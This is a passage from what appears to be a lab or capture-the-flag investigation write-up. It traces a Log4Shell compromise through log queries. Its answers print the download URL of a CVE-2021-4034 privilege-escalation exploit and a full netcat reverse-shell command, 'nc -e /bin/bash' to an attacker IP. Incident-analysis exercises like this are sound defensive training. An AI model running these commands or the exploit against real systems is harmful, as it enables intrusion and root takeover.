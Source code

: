 # <b> 13. After that attacker downloaded the exploit from the GitHub repo using wget. What is the full URL of the repo? </b>

Using the query 'process.args: "wget" and user.name: "salem" shows that URL to be https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py

# <b> 14. After the attacker runs the exploit, which spawns a new process caled pkexec, what is the process's md5 hash? </b>

3a4ad518e9e404a6bad3d39dfebaf2f6

# <b> 15. Then attacker gets an interactive shell by running a specific command on the process id 3011 with the root user. What is the command? </b>

bash -i

# <b> 16. What is the hostname which alert signal.rule.name: "Netcat Network Activity"? </b>

CentOS

# <b> 17. What is the username who ran netcat? </b>

solr

# <b> 18. What is the parent process name of netcat? </b>

java

# <b> 19. If you focus on nc process, you can get the entire command that the attacker ran to get a reverse shell. Write the full command? </b>

nc -e /bin/bash 192.168.1.10 9999

# <b> 20. From the previous three questions, you may remember a famous java vulnerability. What is it? </b>

A quick search shows the vulnerability is Log4Shell.

# <b> 21. What is the entire log file path of the "solr" application? </b>
